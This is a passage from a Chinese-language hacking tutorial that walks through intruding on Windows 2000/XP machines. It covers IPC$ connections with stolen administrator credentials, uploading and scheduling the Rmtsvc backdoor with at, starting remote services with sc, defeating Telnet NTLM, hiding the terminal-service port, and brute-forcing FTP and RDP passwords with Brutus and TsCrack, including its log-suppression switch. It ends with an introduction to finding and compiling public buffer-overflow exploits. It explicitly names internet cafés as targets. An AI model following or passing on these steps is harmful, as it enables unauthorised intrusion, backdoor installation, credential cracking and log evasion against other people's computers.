`IPC (Internet Process Connection)`，共享命名通道……在 Windows NT 系统中，很多网络管理都是依靠 IPC$ 通道实现的……因此产生了一种叫做 IPC$ 入侵的技术。

IPC$ 入侵其实就是利用 IPC$ 管道实现各种远程操作，比如远程运行某个命令、上传并运行一个程序等。要做这些事情必须先建立一个 IPC$ 连接……使用 `net use \\192.168.0.1\IPC$ "password" /user:administrator`。

> **攻击者 A**  
> IP 地址：192.168.56.2  
> 操作系统：Windows XP Professional SP2  
>
> **目标 B**  
> IP 地址：192.168.56.23  
> 操作系统：Windows 2000 Server  
> 管理员账户及密码：administrator/password


首先确定 B 开启了 IPC$ 共享，先建立 IPC$ 连接，如图 4-2-2，命令成功完成。

我们的目的是上传并运行 `Rmtsvc.exe`，首先面临的问题就是上传了。这里提供基于 IPC$ 的两种文件上传方式：使用 Copy 命令和映射网络驱动器。先来看 Copy 命令……


看到“已复制一个文件”则表示文件复制成功。接下来是用第二种方法：我们将把对方的 C 盘整个映射过来作为一个本地磁盘驱动器使用。所谓网络驱动器映射就是这么回事了，来看命令 `net use x: \\192.168.56.8\c$`，这时候本地就会多出一个 X 盘，如图 4-2-4。


在图形界面下或者使用 Copy 命令复制文件随你了，别让我教你啊！映射网络驱动器同样需要建立 IPC$ 连接。

文件上传 ok 了，下面该运行了。远程运行文件的方法也很多，这里只讲最一般的方法：使用 at 命令。AT 命令可以计划一个本地/远程计算机的任务，使系统在某个时间执行某个操作或程序。首先我们得查看远程计算机的系统时间，这样我们才能计划一个时间，使用命令 `net time \\192.168.56.8`，就可以得到对方系统的当前时间，如图 4-2-5。


注意是下午 4 点 25 分，操作系统可不知道什么上午下午，因此我们在指定时间的时候一定要用 24 小时制的。我们就可以计划一个稍微晚一些的时间让对方运行我们刚刚上传的 Rmtsvc，命令是 `at \\192.168.56.23 16:27 c:\winnt\rmtsvc.exe`，看到“新添加一个作业，作业 ID 为 x”则表示计划成功，如图 4-2-6。


你可以不断地用 `net time` 命令查看对方时间是否到了，到了后就可以连接咯！除了时间的格式外，在指定运行文件的文件路径时也要小心。笔者在使用环境变量 `%systemroot%` 的时候忽略了 XP 和 2000 的系统文件夹是不同的，前者是 Windows，后者是 Winnt，由此导致了很多次运行失败。还有一个小发现，我在用 AT 去执行一个可以弹出对话框的程序时竟然转入了后台，以至于我以为程序没有运行，从任务管理器中才确认确实运行了；并且我在结束进程的时候，竟然提示“无法完成操作，拒绝访问”，这是我没有想到的。按说应该不是这样的，欢迎有同样情况的朋友研究并告诉我答案！

以上这些就是经典的 IPC$ 入侵步骤了，许多人就这样一步一步地渗透了不知道多少主机。当然这是几年前的事情。虽然 IPC$ 入侵的时代已经过去了，但是这种方法是一定要掌握的。

## 4.2.2 IPC$ 入侵中的相关问题

当然使用 IPC$ 可以做的事情不只这些，一旦你有了一个管理员权限的 IPC$ 连接，基本没有做不了的，NT 系统提供了很多功能强大的网络管理工具给黑客们。这里就要留给读者们自己去探索了，我们接着探讨 IPC$ 的相关问题。


很多朋友在建立 IPC$ 连接的时候系统会提示出错，这是因为建立 IPC$ 连接需要很多条件：端口、权限、操作系统类型等。IPC 使用 139、445 端口，如果目标主机屏蔽了这两个端口的话，CMD 将长时间没有响应，然后会出现错误，如图 4-2-7。

“发生系统错误 53”，这是最常见的错误情况。除了封闭端口外，主机没有存活或者对方没有开 IPC$ 都导致了这种情况，也就是所有无法连接的因素导致这个错误。除了这个错误外还有系统错误 5，这个错误一般是因为权限不够导致的，比如使用了一个非管理员身份的用户建立 IPC 连接后复制文件就会发生这个错误，一般提示为“拒绝访问”。


前面我们的目标系统是 Win2000，如果你尝试过对 XP 或者 2003 建立 IPC$ 连接的话，我想没有像我前面说的那么顺利吧！是的，微软在 XP/2003 中增强了网络访问的安全性，在默认情况下，即使登录方使用的是管理员账号，系统也会把这个账户的权限降低至 GUEST 这个除了 everyone 外最低的权限，所以做很多操作都是不会成功的。

说是默认情况，看来还有其他情况了，此言极是！打开“控制面板”——“管理工具”——“本地安全策略”，来到这里：“安全设置”——“安全选项”——“网络访问：本地账户的共享和安全模式”，我们可以看到其中有两个选项，如图 4-2-8。默认是“仅来宾——本地用户以来宾身份验证”，所以不管你用何种权限的用户登录都会只有 Guest 来宾权限。“经典——本地用户以自己的身份验证”即使用登录用户自身的权限。

已经成功建立了 IPC 连接并且确认拥有管理员权限，但还是有错误出现？是的，这些错误大多数是由共享和服务造成的。如果 copy 命令复制文件或者映射网络驱动器不成功，那很可能是你指定的共享对方没有开；一种情况是那个目录共享被停掉了，另外有可能是网络共享需要的服务被停掉了，这种可能性比较小。网络共享依赖系统服务 Server，而如果在 at 命令远程指定一个任务，虽然显示添加一个作业了，但是后门始终无法连接，这很可能是对方的 Task Scheduler 服务没有开。

那么怎么开远程服务呢？首先使用管理员账户建立 IPC$ 连接，然后打开“控制面板”——“管理工具”——“服务”，在“操作”菜单下选择“连接到另一台计算机”，如图 4-2-9。填入对方 IP 确定就可以了。这时候这个服务控制台中的服务就是对方的服务了，你可以任意开启或停止某个服务。


考虑到有的朋友在网吧可能进入控制面板有困难，再提供一种方法：在 CMD 下输入命令 `sc \\192.168.56.23 start schedule` 就可以启动远程主机的 Task Scheduler 服务了，如图 4-2-10。


这里要注意服务名和显示名的区别，启动服务的时候要使用的是服务名而不是显示名。使用 sc 远程开启服务之前同样需要建立具有管理员权限的 IPC 连接。从这个地方我们也可以看出 IPC$ 共享通道的强大，这也就是为什么那么多人要关闭 IPC 共享的原因了。除了系统自带的一些命令外，很多第三方的网络管理程序和黑客程序都依赖 IPC，比如著名的 Pstools 以及 Win2000 ResourceKit 中的许多程序。IPC$ 是把双刃剑，利用好了就是系统管理的利器。

## 4.2.3 Telnet 与 NTLM 解惑

Telnet 是 Windows 的标准远程登录方式，登录 Telnet 服务器后操作和在本地的命令提示符中无异。Telnet 是面向连接的，它默认使用 23 端口。从 Win98 开始 Windows 都自带 Telnet 客户端，它是系统目录下 System32 目录中的 Telnet.exe，而服务端只有 NT 系统有，文件为 Tlntsvr.exe。通常在登录 Telnet 服务器的时候使用命令 `telnet IP port`，端口如果不指定的话使用默认的 23。

Telnet 具有这样的功能自然获得了黑客们的认可，很多人想要获取一个 CMDSHELL 时首先想到的就是 Telnet。不过这个后门可不是那么容易使用的。一般入侵中提到 Telnet 就不得不提到 NTLM。


前面讲解了 NTLM 的验证过程，而 Telnet 默认使用的验证方式就是 NTLM。让我们看一张图，如图 4-2-11。这是我登录到一个 Telnet 服务器时的截图，在输入了 `telnet 192.168.56.23` 确定后直接出现了这些信息。前两行告诉我们 NTLM 验证失败，请用明文密码登录；第三行表明此 Telnet 服务器只使用 NTLM 验证。再来看图 4-2-12。


仍然提示我们 NTLM 验证失败，但是下面提示我们输入用户名和密码登录。我依次输入 administrator 和 password，出现“欢迎使用 Microsoft Telnet 服务器。”的提示，成功登录。除了这两种情况，还有一种情况是在你开始登录后直接显示输入用户名和密码，没有提示 NTLM 的任何信息。


这三种情况正体现了 Telnet 服务器的三种验证方式：

- 只使用 NTLM 验证
- 先使用 NTLM 验证再使用密码验证
- 只使用密码验证

明白原理后，破解自然简单。常用的方法是使用 `administrator:password` 运行一个 CMD，具体方法如下：在命令提示符上单击右键，选择“运行方式”，在弹出的“运行身份”对话框中激活“下列用户”，然后输入 Telnet 服务器上一个管理员的用户名和密码，如图 4-2-13。

直接 telnet 登录，是不是直接登录成功了？呵呵，对于使用 NTLM 验证的 Telnet 服务器来说，这种突破方法最为简便。当然更为常见的方法是修改 Telnet 服务器的验证方式，而这又要利用 IPC$ 管道或其他网络连接的支持。网络上有很多这样的工具，比如 GUITelnetControl、Opentelnet 等，这些工具的原理基本相同，它们通常在打开远程主机的 Telnet 服务的时候顺便就把验证方式改为 0 或 1 了。

在我们成功获得一个管理员的密码后，Telnet 是一个不错的选择。即使对方没有开启该项服务我们也可以使用工具帮它开启，而对于顽固的 NTLM 验证，我想你现在可以轻松解决了吧！

既然谈到了 NTLM 验证那就让我们继续研究下去。Telnet 使用 NTLM，最开始我们讲 SMB 的时候说到 NTLM 是 SMB 的缺省验证方式。大家知道 SMB 是为共享而使用的协议，那共享，进一步说 Windows NT 的默认共享是否使用 NTLM 呢？好想法！于是赶快试验，这里分别用两个命令提示符，一个是以 administrator:password 的身份运行的，另外一个以当前登录用户 ninja 的身份运行，在这两个 CMD 中分别输入命令：`net use x: \\192.168.56.23\c$` 映射对方的 C 盘到本地的 X 盘，如图 4-2-14。


从 username 中我们分辨这两个 CMD 的不同运行身份，在 ninja 用户身份下由于事先没有建立 IPC$ 连接，所以系统提示输入用户名和密码；而在 administrator 用户下命令成功完成了，要知道先前根本没有建立 IPC$ 连接。所以得出结论了，Windows NT 的网络共享同样使用 NTLM 验证，IPC$ 也是一种共享，所以所有基于 IPC 的网络功能都可以在建立 NTLM 验证成功的情况下使用，包括前面的远程启动服务。这的确是方便了很多，这样的话，我们只要使用远程系统管理员的用户名和密码登录本地系统，就可以像在本地操作一样操作远程系统，而不必再一次次地输入密码验证。NTLM 给我们带来了阻碍，但玩转它后 NTLM 却给我们带来了这么大的方便，微软想得真是太周到了！

现在可以解释所谓的 Win98 对 Win2000 的 IPC$ 连接了。IPC$ 是 NT 系统才有的特性，在 Win98 中是没有的，因此对于 98 来说作为服务端或者客户端都无法使用 IPC 连接。后来有一种在 98 上使用 IPC$ 的方法：首先进到 98，然后登录的时候使用要连接的主机的一个用户名和密码登录进去，然后在 MS-DOS 下输入 `net use \\ip\ipc$`，系统就会提示 “The command was completed successfully.”，貌似真的建立了 IPC$ 连接，这时候用映射网络驱动器的命令就可以把对方的默认共享磁盘映射到本地使用了。不知道大家尝试过没有，即使不建立那个所谓的 IPC$ 连接也是可以映射成功的，我想这正是 NTLM 验证的原因，因为 NT 系统使用的 NTLM 验证在缺省情况下总是与 LM 一起使用的，而 Win98 是支持 LM 验证机制的，就是说 Win98 支持 NT 系统的验证方式，所以就映射成功了。我想那个所谓的命令执行成功，Win98 是把 ipc$ 当成和 C$、D$ 一样的共享了，在 98 的眼里 IPC$ 这个共享没有什么不同。但毕竟 98 的网络功能太差了，即使可以成功通过 NTLM 验证也做不了多少事情，至少 at 命令没有办法使用。以上这些都是个人的一些想法，有些东西是参照小四哥的 LM/NTLM 验证的文章，如果大家有异议的话欢迎和我讨论！

## 4.2.4 终端服务的利用

一些朋友不喜欢命令行下的操作，觉得输入命令太繁琐了，于是除了第三方远程控制软件外，Windows 2000 的终端服务就成了他们的最佳选择。登录了远程系统的终端服务后操作就像在本地一样，你拥有自己的桌面、自己的文件夹等，并且可以一台电脑同时登录两个或两个以上用户。


不过这是在远程登录和本地登录不是同一个用户的情况下。Win2000 的终端服务同时登录的几个用户的操作不会相互影响，也就是说他们不在同一个会话里，因此它相对于远程控制软件的屏幕控制来说要隐藏得多了，所以终端服务也是黑客们的最爱。Windows 2000 默认是没有安装终端服务的，并且没有提供登录终端服务的客户端程序。终端服务一般被俗称为 3389，这个是它默认使用的端口号，不过有时候为了隐藏，是需要更改它的，这可以通过修改注册表实现。我们来到这个位置：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp`，其下有一个 DWORD 值 PortNumber，它的值就是终端服务的端口值，如图 4-2-15。

| 注册表路径 | 键值 |
|---|---|
| `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp` | `PortNumber (DWORD)` |
| `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp` | `PortNumber (DWORD, 默认 3389)` |

把它改成你想要的端口号就可以了。不过还有一个地方需要修改，来到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`，其下同样有一个 PortNumber 的 DWORD 值，默认为十进制的 3389，修改成和上面修改的一样的值就可以了。需要注意的是，终端服务的端口修改在终端服务重启后才会生效。由于 Windows 2000 没有自带终端服务客户端，我们需要自己找一个客户端连接终端服务登录端，如图 4-2-16。

在“对方服务器”中填入远程主机的 IP 然后点击连接就可以了，这时候你就会看到 Windows 2000 的登录框了，是不是像在本地登录一样呢？（由于条件原因这里没有截图）输入一个拥有管理员权限的账号和密码就可以登录了，然后就像在本地操作一样，非常方便。

不过这只是在 Win2000 的情况下，当 Windows 升级到 XP 后，它的安全性得到了增强，不仅 IPC$ 的功能得到了削弱，连终端服务都没能幸免。WinXP/2003 上的终端服务虽然可以实现很方便的安装，但同一时间只能有一个用户登录，这让以前使用如此顺手的终端服务变得很鸡肋了。首先我们来看看 WinXP 的终端服务如何开启，打开“系统属性”，并转到“远程”选项卡，如图 4-2-17。

在 WinXP 下终端服务叫做远程桌面，从名称我们也可以看出它的功能来，不过这里的“远程桌面”已经和远程控制中的“屏幕控制”没有差别了，因为只能有一个用户登录。勾选那个“允许用户远程连接到此计算机”并应用修改，就开启了 WinXP 的终端服务。

WinXP 自带了终端服务客户端程序，在“运行”中输入 mstsc 就可以打开了，如图 4-2-18。

在计算机中输入远程计算机的 IP 地址即可，若对方没有使用默认的终端服务端口，则需要在 IP 地址的后面指定，比如 192.168.56.21:13389，其中 13389 为自定义的端口号。使用这个客户端不仅可以登录 WinXP 的终端服务，也可以登录 Win2000 的，Win2003 的没有测试。


## 4.2.5 WMI 的利用

WMI（Windows Management Instrumentation，Windows 管理规范）我们接触得不多，但是它被描述为“Windows 2K/XP 管理系统的核心”，可见功能之强大。我们暂时可以把 WMI 和 IPC$ 等同，它们都可以实现网络管理，不过实现方法不同。笔者看了一些 WMI 的资料，它和编程的知识结合得比较紧，WMI 相关常被用在脚本的编写上，这些脚本同样可以查看远程计算机信息、执行远程任务，并且 WMI 的使用相当灵活。Win98 以上的系统对 WMI 都是支持的，因此使用 WMI 远程管理更具优势。

WMI 的相关知识属于高级话题，我们不会提及太多，只介绍几个利用 WMI 的工具。除了 Windows 自带的 WMI 客户端程序 WMICC 外，网上还广为流传的两个程序是 Remoexc 和 Recton，我们以后者为例，它出来晚一些，但功能是相当的强大，如图 4-2-19。

Recton 经过几次升级到 2.5 的时候功能已经相当强大了，而貌似这也是它的最后一个版本。我们看到，这里只要获得了对方的管理员账号和密码，就可以远程开启对方的终端服务、开启 Telnet、远程执行 CMD 命令、清除日志、查看操作进程等，够我们玩个爽了。这个工具在网吧的威力比较大，尤其是对于 Win2000 作为客户机的网吧来说是个不小的威胁。Recton 是入侵的得力助手，可不是你随便搞破坏的工具哦！

## 4.3 基于其它服务的远程密码猜解

### 4.3.1 针对 FTP 的密码猜解

在少数情况下目标主机没有开共享却开了其他网络服务，我们简单讨论一下这种情况。其实当我们扫描的时候基本上就可以使用端口判断对方是否开了某个服务，例如 FTP、Telnet 和 3389，通过这些服务也是可以远程猜解密码的，不过使用的端口、服务类型、协议以及连接速度等和共享会有差异，但事实证明这些服务的远程密码猜解也是可行的。

国内针对这些服务猜解密码的工具比较少，倒是国外的安全网站上有几款不错的工具，像 Brutus-AET2、THC 出品的 Hydra 等。前者是一款 GUI 界面的程序，初学者比较容易上手，所以这里就拿它当例子了，看它的界面，如图 4-3-1。

一看是英文界面最初感觉会很繁琐，其实不然，Brutus 的使用还是相当简单的。Target 的文本框中输入要攻击的 IP 地址，Type 是选择攻击的服务类型，Brutus-AET2 支持的服务有 HTTP 的基本验证、HTTP（HTML Form/CGI）、POP3、FTP、SMB（NETBIOS）、Telnet 等，这里我们就以 FTP 为实验目标。Telnet 的选项在这里设置就可以了；connection option 为连接选项，主要设置攻击端口（程序会给出服务对应的默认端口）、线程数、超时和代理，我们把线程数稍微调高一些，超时调低一些可以加快速度。


为加快破解速度，端口保持默认，代理就不设置了，FTP 选项保持默认。然后在 Authentication 选项中设置使用的用户名和密码文件。如果只使用一个用户的话，把 Single User 勾选，然后在 UserID 中填入用户名就可以了。我这里就只使用一个用户 administrator 进行猜解，密码方案使用字典。除了字典外，Brutus 还可以使用暴力破解方式。好的，这些都设置完毕以后点击“start”就开始猜解了。刚开始可能会慢一些，但后来一下子就快了起来！仍然使用前面的那个字典，Brutus-AET2 竟然只用了 3 秒就拿下了 administrator 的密码，不愧被称为超强的密码猜解工具，如图 4-3-2。

在攻击 Telnet 的时候 Brutus 不太好用，总是出错或者是用户名密码报错，随便一个密码它都报成功，要不就是很多连接验证都失败了导致破解中断。如果你的电脑够好的话，完全可以使用 60 个连接，那破解速度是相当快了。我们演示的只是 Brutus-AET 的最简单用法，它还有其它更为细节的选项有待读者自己去挖掘吧！同时附带一款命令行的超强远程密码猜解工具 THC-Hydra Windows 版本，它可以验证更多的服务！


## 4.3.2 终端服务的密码猜解

针对 3389 终端服务的猜解工具不是很多，笔者孤陋寡闻到现在只知道有一款这样的工具，它就是 TsCrack.exe，也是国内流行最为广泛的终端服务远程密码猜解工具。这同样是一款国外的命令行下的工具，其原理就是使用终端服务的客户端一次一次地尝试密码，和手工输入一样。呵呵，有些另类了，所以在破解的时候 Tscrack 不能在后台工作，你只能看着那个登录框一次次地尝试着密码，当然如果你的电脑配置好的话是看不到过程的，只留下那个框框在那里闪烁。并且 Tscrack 的破解速度也是相当慢的……不讲了，让我们来看 Tscrack 的帮助信息，如图 4-3-3。

它的选项也不是一般的多，我们挑其中常用的简单解释一下：

```text
C:\Fornever\工具\crack3389>tscrack

Usage help:
tscrack [switch] [switch [arg]] ... <Host/IP[:port]>

Parameters:
<Host/IP[:port]> : DNS name or IP address of target server, optional port

Switches:
 -h : Print usage help and exit
 -v : Print version info and exit
 -s : Print cipher strength info and exit
 -b : Enable failed password sleep
 -t : Use two simultaneous connections [EXPERIMENTAL]
 -N : Prevent System Log entries on targeted server
 -U : Uninstall tscrack and remove components
 -B : Bruteforce mode
 -f <number> : Wordlist entry to start cracking with
 -w <wordlist> : Wordlist to use
 -m <number> : Minimal bruteforce password length
 -x <number> : Maximal bruteforce password length
 ...
```

- `-h` 显示帮助信息  
- `-v` 显示版本信息然后退出  
- `-t` 使用双连接（两个登录窗口）  
- `-N` 防止目标主机记录日志  
- `-U` 卸载 Tscrack 并删除组件  
- `-B` BruteForce mode，暴力模式  
- `-f <number>` Wordlist entry to start cracking with  
- `-w <wordlist>` 使用 `-w` 后面的文件作为密码字典  
- `-m <number>` 暴力破解密码的最小长度  
- `-x <number>` 暴力破解密码的最大长度  
- `-q <charset>` Additional bruteforce custom chars [EXPERIMENTAL]  
- `-F <delay>` 延迟时间（单位毫秒）  
- `-u <user>` 指定要验证的用户名，默认使用 administrator  
- `-D <domain>` Specify domain to attempt logon to  
- `-p <password>` 使用 `-p` 后面的字符串做密码验证  

在使用前首先得注册控件，在当前目录下进入命令提示符，输入命令 `regsvr32 /i msrdp.ocx`，虽然会出现错误提示但还是成功注册了组件，然后就可以使用 Tscrack 了。最好使用双连接，速度翻倍啊，并且要适当设置延迟时间，太短的延迟会使 Tscrack 很快就超时，而太长的延迟又会影响破解速度，具体设置要根据你计算机的配置和网络连接速度决定。下面给出几个参考命令：

```text
tscrack -w words.dic IP
tscrack -t -w words.dic -f forever IP
tscrack -t -N -w words.dic -l forever -F 1000 IP
tscrack -B -m 0 -x 7 IP
```

这里我输入命令 `tscrack -t -N -w words.dic 192.168.56.21`，如图 4-3-4。


大家看到两个终端服务客户端的登录框出现了，由于我的显卡有问题，分辨率只能达到 640x480，所以抓图效果那样了……人家注意到没有？我猜解的目标的操作系统是 Windows XP Professional。对于 XP 来说，同一时间只能有一个用户登录系统，而如果 Tscrack 猜解密码过程中 XP 已经有用户登录了，那即使密码猜解成功了，CMD 中也不会提示你找到密码，这时候你就要留心了。因为程序在猜解过程中如果密码正确了，但是对方系统中已经有用户登录，客户端这边就会有消息框提示，Tscrack 检测到消息框就会认为这个密码不是错误的，所以这个程序对 XP 以及 2003 来说不是很好用。

Tscrack 会很“笨”地把密码一个一个验证了，看着一个个“登录消息”框我都有些感动了。不过感动的同时也很郁闷，毕竟它的速度太慢了，比 Smbcrack 慢多了！所以猜解终端服务的密码是到逼不得已的情况下才用的，能通过 SMB 猜解密码尽量采用 SMB，因为它得到的密码我们登录终端服务也是可以通过验证的。微软的这种使用系统密码对自己的所有服务进行验证的设计不仅方便了用户，也让黑客尝到了甜头。

## 5、缓冲区溢出漏洞

缓冲区溢出（Buffer Overflow）——一个神秘而令人畏惧的词汇。自从它诞生那天起，网络攻击的世界发生了巨大的变化。入侵不再具有那样多繁琐的过程，只要执行一段指令，远程计算机的终端就在自己掌控下了。而缓冲区溢出漏洞真的如此容易利用吗？让我们来揭开它的神秘面纱！

### 5.1、缓冲区溢出漏洞攻击原理

### 5.1.1、什么是缓冲区

一个软件可以被描述为一个程序集，而一个程序则被描述为一个由许多指令组成的指令集。软件被执行了，它就贮存在了内存中。内存就是计算机中一块有限的存储空间，在我们看来就是内存条了，而大小则是内存条的容量，比如常见的 256M、512M 等。当今软件越来越趋向灵活，一个无法与用户交互的软件是无法生存的。和用户交互就不可避免地得接受用户输入的数据，这些数据在未被处理之前必须被存储，否则在使用它们的时候将无法找到，存储这些用户输入数据的区域就是缓冲区了。简单地说，缓冲区是存放临时数据或者计算中间结果的一块内存区域，这块内存区域是连续的。

### 5.1.2、缓冲区溢出漏洞

也许是因为早期程序需要的数据都是来自程序员自己的原因吧，他们没有考虑到程序中数据是否会超出缓冲区的大小。应该是发现缓冲区溢出漏洞利用的人最初注意到了这个细节将带来的安全问题：他输入一个超过缓冲区规定长度的字符串会造成程序执行出错（要知道缓冲区不可能被设计成无限长度，因为内存是有限的），再研究下去发现是因为超出缓冲区的字符串覆盖了程序中缓冲区后面的指令，也就执行出错了，而这也仅仅是执行出错。悬念来了，我们举个例子。有这样一个简单的计算加法的程序，它允许用户输入的数据小于等于 10 位（缓冲区长度，暂时不考虑长度单位），而这时候用户输入一个数字 314159265358979。由于缓冲区规定的长度为 10 位的整数，并且程序员没有对用户输入的数据进行检查，因此前面的输入就造成了这个程序溢出了。比如在存放用户输入数据后面要执行加法的操作，这时候 58979 就会覆盖掉执行加法指令的一部分代码，使程序无法正常执行（3141592653 是前十位数字），也就出错了。这里只是使用比喻来描述漏洞产生的原因，至于这个比喻是否合理大家可以不必关心，不过应该是可以的！~

而仅仅造成程序出错并不是我们想要得到的，我们应该让出错的程序执行一些我们想要它执行的指令，比如建立一个管理员账号。这时候仍然需要看看缓冲区溢出漏洞造成的原因——多余的代码覆盖了正确的代码，然后程序执行了覆盖的部分……而这段精心构造的数据（更通常的叫法是 **Shellcode**）就成为整个溢出漏洞利用过程中的精华部分，也是难点了。

在这种方法成功利用的基础上，又有许多人陆续发明了更多利用方法，但是万变不离其宗。随着网络程序越来越多地被开发和利用，远程缓冲区溢出漏洞也被越来越多的人所熟知，它也成为了最有威胁的攻击方法之一……这里我们只需要理解缓冲区溢出的基本原理和利用方法就可以了。

### 5.2、远程溢出前的准备工作

### 5.2.1、获得一个有效的攻击代码

首先我们需要找一个 Exploit，而不是自己去寻找目标系统的漏洞，呵呵要知道这是多么艰辛的一个过程！缓冲区溢出漏洞的时效性非常强……这里我们要理解一个名词——**0DAY**。

> ### 什么是 0DAY
> 0DAY 最初是和软件被解密系在一起的，意指那些不到一天就被破解了的软件，也叫做即时发布。后来 0DAY 被引申到了缓冲区溢出漏洞的领域，意思就是某个漏洞在官方还没有发现或发布补丁之前已经有人公开发布了 Exploit。0DAY 不是某个组织或个人，它可以被看成一种精神，真正的 0DAY 是非商业化、非盈利、志愿的行为，是伟大的共享精神的体现。


应该说公布 0DAY 漏洞的人才是真正意义上的黑客，他们有共享精神和不被金钱驱使的品质。前面说的所有就是要让我们找一个新鲜出炉的溢出漏洞，这样的漏洞成功率才够高。经常关注一些权威的安全咨询网站或者黑客站点，你就可能有机会在第一时间获得漏洞信息，这里推荐国内的绿盟科技（www.nsfocus.net），你可以在这个地方获得每天的最新漏洞信息。

这里以 Microsoft SNMP 远程任意指令执行漏洞（MS06-074）为例来讲解在漏洞描述中哪些信息是对我们有用的，如图 5-2-1。首先从名称中我们可以看出这个漏洞可以被远程利用，也就是说我们可以利用这个漏洞进行远程溢出攻击……这里从 Windows 2000 到 Windows 2003 均受这个漏洞的影响，可见它的危害之大。

如果你的系统类型不在“受影响的操作系统”类型里，那你就别劳心费力往下看了，继续寻找其它漏洞去吧！从描述中我们可以更多地了解这个漏洞的情况：产生漏洞的是哪个服务，使用的是哪个端口等，这些都是非常有用的信息。绿盟公布的漏洞中有些在“漏洞描述”下面给出了测试方法，其实就是一些溢出代码，这样我们就可以不用到网上去寻找溢出代码了。

总的来说我们看一个漏洞是否适合使用，主要要得到的信息有：漏洞影响的操作系统或者软件版本、服务以及端口。对于需要寻找溢出代码来说，漏洞的代号是很重要的。

当你在某个网站上发现一个新爆的缓冲区溢出漏洞，这时候你就可以利用 Google 或者 BAIDU 搜索关于这个漏洞的 Exploit 信息。如果是安全厂商发现的漏洞，稍微晚一些 Exploit 才会有人公布出来；而如果是个人或黑客组织发现的漏洞，那一般公布漏洞之日就是这个漏洞的 Exploit 诞生之日……接下来我们以常见的 Exploit 代码格式（.pl 和 .c）为例来讲解如何编译执行一个 Exploit。

### 5.2.2、Exploit 代码编译 DIY

### a、Perl 代码的编译

.pl 文件是用 Perl 语言编写出来的。编译 .pl 文件一般使用 ActivePerl 编译器，安装后会关联系统中的 .pl 文件。其默认安装目录是 `C:\Perl\bin`，主编译程序为 `perl.exe`。打开 CMD，转到溢出代码所在目录即可运行。


Exploit 执行后可根据提示判断溢出情况。若希望把 .pl 文件编译成 .exe，可使用 Perl2exe（免安装，解压即可用）。在其目录执行 `perl2exe sample.pl`，可将 sample.pl 转为可执行文件。


需要注意 Perl2exe 依赖 ActivePerl，不同 ActivePerl 版本支持不同 Perl2exe 版本。文中示例为 ActivePerl 5.6.1.630 和 Perl2exe5。

### b、C 代码的编译

.c 文件是 C 语言代码。文中建议使用 Cygwin 和 VC 来编译常见 Exploit。Cygwin 可在 Windows 下模拟 Linux 环境并提供 GCC 编译工具。


安装 Cygwin 时可选择“install from Internet”，按默认步骤选择安装目录和连接方式（Direct Connection），然后在组件选择中展开 `All -> Devel`，选择 `binutils`、`gcc` 和 `gcc-mingw` 等组件，直到出现版本号即可。


然后把“Bin”那列它们对应的选项选上就可以了。选择完三个包之后，Cygwin 就访问选择的镜像主机，然后下载那三个包以及默认的基本包。待下载安装完成后，就会在你的 C 盘多一个 cygwin 的文件夹，这就是 Cygwin 环境的根目录了。将 C 代码写入一个文本文件并保存为 .c 格式（示例为 hack.c），然后进入 Cygwin 目录下的 Home 目录，进入与当前登录用户名同名的文件夹后把 hack.c 复制进去即可。

双击桌面 Cygwin 刚才建立的快捷方式进入 Cygwin 环境。直接输入 `gcc -o hack.exe hack.c` 就可以把 hack.c 编译成 hack.exe。执行时要注意仅有一个文件不行，还需要 `cygwin1.dll` 的支持。该文件在 Cygwin 安装目录下的 bin 目录中可以找到。在 Windows 中执行 Cygwin 环境下编译的程序时，程序和 cygwin1.dll 需要放在同一目录中，否则无法执行。

从上面的描述中可以看出利用 Cygwin 编译 C 代码较繁琐，下载安装速度慢且执行不便。于是又可使用 Dev-C++，同样利用 GCC 编译模块，但它是图形界面，安装与使用更简单。

点击“File”菜单，选择“New”下的“Source File”新建 C 源代码文件，在右侧工作区中将 C 溢出代码粘贴进去（如图 5-2-7）。然后点击编译按钮，选择一个 C 源文件名称，出现图 5-2-8 的对话框即说明编译成功，可在 C 源文件同级目录下找到编译后的程序。


当然不是所有的 C 代码都可以用 Cygwin 和 Dev-C++ 编译，很多代码在它们环境下会失败。这时就只能用 VC 了。VC 下载较难找到，常见光盘版约 5 元，可购买后安装用于编译代码。VC 的使用与 Dev-C++ 很相似。


### 5.2.3、缓冲区溢出漏洞分类

好了，我们已经学会了如何编译 Exploit，攻击武器到手了。但在发动进攻之前你还需要了解一些东西。这里我们要对缓冲区溢出漏洞做一个简单分类：按攻击目标位置可分为远程溢出和本地溢出；按溢出漏洞产生的对象可分为系统程序缓冲区溢出和应用程序缓冲区溢出。对于入侵来说，最常用且危害最大的要数远程溢出。

发生溢出，执行一个攻击者希望目标执行的动作，从而使攻击者得到相应的权限，这个权限有可能的话，攻击者希望是管理员权限。尽管不是所有漏洞利用成功获得的都是管理员权限。可以被远程溢出的程序必定具有网络功能，它可以接受一个来自网络的字符串并处理，不过它处理得不是很好。可喜的是现在又有多少软件不具备网络功能呢？而如果真的是一个远程溢出漏洞仅仅获得了一个普通用户的执行权限，比如我得到了一个普通用户下的远程命令提示符，这时候就可以考虑使用一个可以提升权限的本地缓冲区溢出漏洞了。

而做第二类划分的目的主要是为了区别操作系统的一些组件或单元的漏洞与第三方厂商提供的软件漏洞，毕竟操作系统是每个计算机都要安装的，而对于网吧 Windows 自然是绝对占据市场。好在 Windows 的系统漏洞也不是一般的多，我们通常利用的远程缓冲区溢出漏洞大多数是源自系统本身，而获得的权限一般也会很大（系统或管理员权限）。一些企业的产品自然也免不了存在溢出漏洞，对于网吧来说，一些媒体播放软件、通讯软件、娱乐软件等存在缓冲区溢出漏洞的也不在少数，这都给我们的网吧入侵行动提供了契机。

请注意，这里将把 IE 作为第三方应用软件来看待，虽然它是 Windows 系统自带的。接下来我将展示针对 Windows 和 IE 的缓冲区溢出漏洞攻击过程，最后还有一个本地缓冲区溢出漏洞利用的例子。

### 5.3、缓冲区漏洞利用

### 5.3.1、Windows 的缓冲区溢出漏洞利用

